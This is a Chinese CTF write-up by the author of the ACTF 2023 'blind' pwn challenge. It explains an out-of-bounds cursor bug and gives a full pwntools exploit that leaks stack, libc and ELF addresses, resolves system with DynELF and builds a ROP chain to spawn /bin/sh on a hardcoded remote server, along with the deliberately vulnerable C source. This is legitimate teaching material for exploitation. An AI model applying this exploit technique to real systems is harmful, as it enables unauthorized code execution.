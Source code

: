 # ACTF2023 blind WP

## 解题思路

这道题提供了字符编辑功能，玩两下就可以发现存在越界编辑

改改周围看下会发生什么——

```
[A]aaaaaa
> 8DW
aaaaaa 
> AS
Aaaaaaa[]
```

当右移8再+1后，我们发现输出位置改变了，说明改到了字符串指针，那么`8D8W`就可以输出这个指针本身的值，发现是`0x7fff`开头的栈上地址。那么只要修改这个指针就可以dump stack。

然后搞清楚程序修改的机制：首先显而易见的有两个指针——一个是每次输出字符串name的地址，一个是当前修改的位置。那么修改的位置是独立指针，还是基于名字的偏移？我们发现在`8DW`后需要`AS`才能恢复原状，也就是说在修改指针地址后，当前修改的位置也偏移了。这就说明输出的是指针，而`[]`是一个下标。于是我们大概可以还原出这样的代码：

```c
switch(toupper(ch)) {
    case 'W': p[cursor] += times; break;
    case 'A': cursor -= times; break;
    case 'S': p[cursor] -= times; break;
    case 'D': cursor += times; break;
    case ' ': p[cursor] ^= 0x20; break;
    case '\n': break;
    default : printf("Invalid: %c\n", ch);   break;
}
```

还有一个问题是，修改指针后是否立即生效？试一下`8DWS`发现输出还是Aaaaaaa，说明修改偏移是即时的，而修改指针会在下一次生效。也就是说修改时传入的是指针副本。于是又可以还原出一些逻辑。

```c
int main() {
    char namebuf[0x8];
    char *ptr = namebuf;
...
    do {
        print(ptr);
        printf("\n> ");
    } while (process(ptr)); // 传入了指针的副本，当次修改不影响指向
    printf("Hello, %s!\n", ptr);
    return 0;
}
```

这样就可以任意修改和泄露了。栈上有libc、elf以及栈的地址，泄露后把偏移改到`elf&0xfffffffff000`的位置leak，然后ROPGadget找到`pop rdi; ret`的地址，用DynELF解`system`，把名字改成`/bin/sh`，ret2csu即可。（作为一个良心出题人，给大家用了2.31。如果是2.35就要去dump libc了;）

exp：

```python
#! /usr/bin/env python3
# -*- encoding: utf-8 -*-
'''
@File    : std.py
@Time    : 2023/10/6 Mon 19:02:36
@Author  : Wh1sper
@Desc    : exp for ACTF 2023 blind
'''

from pwn import *

context.update(arch='amd64', os='linux', log_level='debug', timeout=None)

io = remote('120.46.65.156', 32104)

base, offset = 0, 0
def Off(pos): # 将[]修改到指定偏移
    global offset
    cnt = pos - offset
    offset = pos
    if cnt > 0:
        return str(cnt).encode() + b'D'
    else:
        return str(-cnt).encode() + b'A'

def setval(_offset, orig, to): # 修改base[_offset]的值为to，需要知道original
    payload = b''
    for (i, (b, a)) in enumerate(zip(orig, to)):
        change = a - b
        if change != 0:
            payload += Off(_offset + i)
        if change > 0:
            payload += str(change).encode() + b'W'
        elif change < 0:
            payload += str(-change).encode() + b'S'
    return payload

def Base(addr): # 将base指针修改到指定位置
    global base
    payload = setval(stack_addr - base, p64(base), p64(addr))
    base = addr
    return payload

def leak(addr): # base到指定位置然后输出
    payload = Base(addr) + Off(-1)
    io.sendlineafter(b"> ", payload)
    ret = io.recvuntil(b'\n> ', drop=True)
    io.unrecv(b'> ')
    return ret

def dump_elf(baseaddr):
    with open('dump', 'wb') as f:
        for i in range(0x1000 // 8):
            print(hex(i))
            f.write(leak(baseaddr + i * 8))
    print("dump done.")
    exit(0)

payload = setval(0, b'Aaaaaaa', b'/bin/sh')
io.sendlineafter(b"\n> ", payload)

payload = Off(8) + b'8W'
io.sendlineafter(b"> ", payload)
stack_addr = u64(io.recvuntil(b"\n", drop=True))
log.success(f'Leak stack: {stack_addr:#014x}')
base = stack_addr

# Step 1: View stack.
# for i in range(20):
#     print(f"{i:#x}: {u64(leak(stack_addr + i * 8)):#014x}")
# exit(0)

libc_addr = u64(leak(stack_addr + 0x10))
log.success(f'Leak libc: {libc_addr:#014x}')
elf_addr = u64(leak(stack_addr + 0x28))
log.success(f'Leak elf: {elf_addr:#014x}')

# Step 2: Dump elf
# dump_elf(elf_addr & 0xfffffffff000)

d = DynELF(leak, libc_addr, libcdb=False)
system_addr = d.lookup('system', 'libc')
log.success(f'Leak system: {system_addr:#014x}')

val_0x18 = u64(leak(stack_addr + 0x18))
val_0x20 = u64(leak(stack_addr + 0x20))
poprdi_ret = 0x5db + (elf_addr & 0xfffffffff000) # ROPgadget --binary dump --rawArch=x86 --rawMode=64 | grep "pop rdi ; ret"
io.sendlineafter(b"> ", Base(stack_addr))
io.sendlineafter(b"> ", setval(0x10, p64(libc_addr), p64(poprdi_ret))) # poprdi, ret
io.sendlineafter(b"> ", setval(0x18, p64(val_0x18), p64(stack_addr - 8))) # binsh_addr
io.sendlineafter(b"> ", setval(0x20, p64(val_0x20), p64(poprdi_ret + 1))) # ret
io.sendlineafter(b"> ", setval(0x28, p64(elf_addr), p64(system_addr))) # system
io.sendlineafter(b"> ", b'')

context.log_level = 'info'
io.interactive()

```

## 解题情况

大家的解法和官方解相差无几。一些队伍leak libc地址后查到了版本是`Debian GLIBC 2.31-13+deb11u7`，可以不用dump直接打ROP。

星盟的师傅非常厉害，在不dump程序的情况下爆破到了ROP gadget。具体做法是：

1. 由于8A（name往低8字节）存放了返回地址，所以把name修改为栈上泄露的elf地址，通过name-0x8位置爆破前面泄露出来的elf函数附近的ret。
2. 通过布置栈（将返回地址放到name[0x30]），爆破csu的pop6_gadget。

这样就无需dump可以直接打了（需要用DynELF解出system地址），666

## 题目源码

不同gcc版本编译偏移可能会有变化，题目用的镜像是`debian 11(bullseye)`

```c
// gcc src.c -o blind
#include <stdio.h>
#include <stdlib.h>
#include <ctype.h>
#include <string.h>

ssize_t cursor = 0;
int process(char *p) {
    char *ops = NULL;
    int has_d = 0;
    size_t bufsize;
    ssize_t i = 0, len, rep;
    if ((len = getline(&ops, &bufsize, stdin)) == -1) {
        puts("Error.");
        exit(EXIT_FAILURE);
    } else if (len == 1) {
        free(ops);
        return 0;
    }
    while (i < len) {
        char ch = ops[i++];
        ssize_t times;
        if (isdigit(ch)) {
            rep = rep * 10 + (ch - '0');
            has_d = 1;
            continue;
        }
        times = has_d ? rep : 1;
        switch(toupper(ch)) {
            case 'W': p[cursor] += times; break;
            case 'A': cursor -= times; break;
            case 'S': p[cursor] -= times; break;
            case 'D': cursor += times; break;
            case ' ': p[cursor] ^= 0x20; break;
            case '\n': break;
            default : printf("Invalid: %c\n", ch);   break;
        }
        rep = 0;    has_d = 0;
    }
    free(ops);
    return 1;
}
void print(char *p) {
    int i;
    for (i = 0; i < 0x8; ++i) {
        if (i == cursor)
            printf("[%c]", p[i]);
        else
            printf("%c", p[i]);
    }
}
int main() {
    char namebuf[0x8];
    char *ptr = namebuf;
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
    memset(namebuf, 'a', sizeof(namebuf));
    namebuf[0] ^= 0x20;
    namebuf[sizeof(namebuf) - 1] = 0;
    puts("Welcome to ACTF, type your name here.");
    puts("Use A/D to move, W/S to change letter, <Space> to change Capital. You can add prefix n to repeat W/A/S/D command(3A2W = AAAWW), just like vi. When you finish it, send a single <Enter> to submit.");
    do {
        print(ptr);
        printf("\n> ");
    } while (process(ptr));
    printf("Hello, %s!\n", ptr);
    return 0;
}

```

